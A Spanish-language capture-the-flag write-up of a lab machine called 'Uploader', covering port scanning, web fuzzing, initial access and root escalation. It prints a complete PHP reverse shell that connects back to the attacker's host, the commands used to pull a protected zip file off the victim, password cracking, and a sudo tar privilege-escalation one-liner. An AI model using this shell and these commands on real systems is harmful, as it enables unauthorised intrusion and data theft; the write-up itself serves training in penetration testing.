# 📁 Uploader

**Por PanTrO**

¡Qué hay de nuevo! Tras analizar el objetivo, me enfrenté a **Uploader**. A primera vista parecía un entorno web minimalista enfocado en el almacenamiento de archivos, pero analizando a fondo su lógica, logré descubrir un vector de subida arbitraria, exfiltración de datos protegidos y un abuso directo de binarios del sistema para la **escalada de privilegios corporativos**. ¡Vamos a desglosarla paso a paso!

## Fase 1: Reconocimiento. Abriendo el mapa de red

Como siempre, el punto de partida obligatorio es un barrido completo de todo el espectro de puertos TCP para mapear la superficie expuesta, asegurando que no se nos escape ningún servicio oculto en puertos altos.


```Bash
nmap --stats-every=5s -p 0-65535 --open --min-rate=5000 -T5 -A -sT -Pn -n -v <IP_VICTIMA> -oX nmap_TCP.xml
```

**El panorama detectado:**

- **Puerto 80 (HTTP):** Servidor web `Apache httpd 2.4.58` ejecutándose sobre un sistema operativo Ubuntu. La cabecera revela el título del sitio: `Uploader File Storage`.


## Fase 2: Enumeración Web. Buscando el almacén

Al interactuar con la interfaz del puerto 80 nos topamos con que la página principal incluía un enlace directo hacia un apartado de subida de archivos (_upload_). El siguiente paso estratégico fue lanzar un ataque de fuzzing rápido mediante `ffuf` para indexar directorios ocultos o rutas de procesamiento del servidor:


```Bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_directories.txt:FUZZ -u http://<IP_VICTIMA>/FUZZ -t 300 -mc 200,301
```



**El secreto tras el muro:**

- Encontramos la ruta `/uploads/` con un código de estado 301. Esto nos confirmó el directorio exacto donde el servidor web almacena los recursos cargados por los usuarios.

## Fase 3: Intrusión. Explotando el formulario web

Para comprobar la lógica del formulario y verificar si aceptaba e interpretaba archivos PHP, generé inicialmente un archivo de prueba básico mediante la terminal de mi entorno local:


```Bash
nano test.php
```

Al corroborar que la aplicación web procesaba y aceptaba recursos con extensión `.php`, accedí al portal `revshells.com` para generar una terminal reversa interactiva basada en la implementación clásica de _PHP PentestMonkey_. El código definitivo quedó estructurado de la siguiente manera:


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.14';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		$input = fread($sock, $chunk_size);
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		$input = fread($pipes[1], $chunk_size);
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		$input = fread($pipes[2], $chunk_size);
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

1. **Preparación:** En mi máquina local, dejé corriendo un oyente con Netcat para interceptar la llamada entrante:


```Bash
 nc -lvnp 4444
```
 

2. **Ejecución:** Cargué el script final a través del formulario de subida e invoqué el recurso directamente desde la ruta descubierta (`http://192.168.1.13/uploads/test.php`). Al interpretar el código, el servidor Apache nos devolvió una sesión interactiva, obteniendo acceso inicial bajo el contexto del usuario de servicio `www-data`.



## Fase 4: Movimiento Lateral. El secreto del operador

Tras estabilizar la shell, realicé una auditoría del sistema de archivos local. En la carpeta del usuario encontré una nota de texto (`Readme.txt`) dejada por el operador del sistema, advirtiendo que había resguardado un archivo comprimido de alta importancia en un sector confidencial del servidor.

Para dar con la ubicación exacta del recurso, ejecuté una búsqueda selectiva filtrando por extensión:


```Bash
find / -name "*.zip" -type f 2>/dev/null
```

**Resultado:** El rastreador localizó el contenedor en la ruta `/srv/secret/File.zip`.



### 🛰️ Exfiltración y Criptoanálisis del Contenedor

Para trabajar con total comodidad y evitar la inestabilidad de la shell interactiva, monté un servicio web temporal con Python en la máquina víctima para descargar el botín de forma local en mi entorno de auditoría:

- **Víctima:** `python3 -m http.server 8080`

- **Atacante:** `wget http://192.168.1.13:8080/File.zip`


Al intentar interactuar con el contenedor descargado localmente, se detectó que requería autenticación. Procesé el archivo mediante `zip2john` para extraer su hash y ejecuté un ataque de fuerza bruta empleando John The Ripper:


```Bash
zip2john File.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



Tras romper la protección del contenedor con la clave obtenida, empleé la herramienta `7z` para evadir los problemas de compatibilidad del formato nativo y extraer correctamente el directorio comprometido:


```Bash
7z x File.zip
```

El documento de texto extraído (`Credentials.txt`) revelaba un nuevo nombre de usuario (`operatorx`) y una cadena de texto en formato hexadecimal asociada como contraseña.





### 🔓 Desencriptación de la Identidad de Usuario

Para identificar con precisión la naturaleza del hash antes de lanzar el ataque por diccionario, pasé la firma por la herramienta `haiti`:


```Bash
haiti d0970714757783e6cf17b26fb8e2298f
```



Al confirmar mediante la herramienta que se trataba de un algoritmo clásico sin sal (`raw-md5`), almacené el hash en un archivo limpio y le ejecuté un ataque dirigido con John The Ripper para descifrarlo:


```Bash
echo "d0970714757783e6cf17b26fb8e2298f" > operatorx.hash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt operatorx.hash
```



La función matemática fue revertida con éxito. Con la contraseña real en texto plano, realicé el pivoteo horizontal hacia el nuevo usuario dentro de la máquina comprometida:


```Bash
su operatorx
```

## Fase 5: Escalada a Root. El comodín de Tar (GTFOBins)

Ya consolidado como `operatorx`, el objetivo prioritario era la elevación definitiva de privilegios. Inspeccioné las directivas de ejecución del comando `sudo` asignadas a mi nuevo perfil:


```Bash
sudo -l
```

**La mina de oro:** El sistema permitía a nuestro usuario ejecutar el binario oficial `/usr/bin/tar` bajo el contexto de cualquier usuario (incluyendo al administrador supremo) sin necesidad de interactuar con una solicitud de contraseña (`NOPASSWD`).

Consultando la documentación técnica en **GTFOBins**, se constató el abuso potencial de las funciones nativas de diagnóstico de `tar`, las cuales permiten desencadenar acciones y ejecutar comandos del sistema operativo (`--checkpoint-action`) durante los procesos de lectura. Al invocar esta capacidad en conjunción con la ejecución privilegiada de `sudo`, la terminal inyectada hereda automáticamente los privilegios máximos de administración:


```Bash
sudo -u root /usr/bin/tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```



**Compromiso total:** El binario procesó la acción de forma inmediata, otorgando una terminal con el identificador máximo (`UID=0`). Acceso como **Root** consolidado.

## Fase 6: Flags y Conclusión. 🏁

Con el control absoluto de la infraestructura, restó ubicar los directorios principales de cada perfil afectado para realizar la lectura directa de los archivos de verificación final utilizando el comando nativo `cat`:


```Bash
cat /home/operatorx/user.txt /root/root.txt
```



Una máquina fantástica para consolidar destrezas en auditoría web, análisis de contenedores cifrados y el peligro crítico que representan los binarios mal configurados en las directivas de elevación del sistema. ¡A por la siguiente!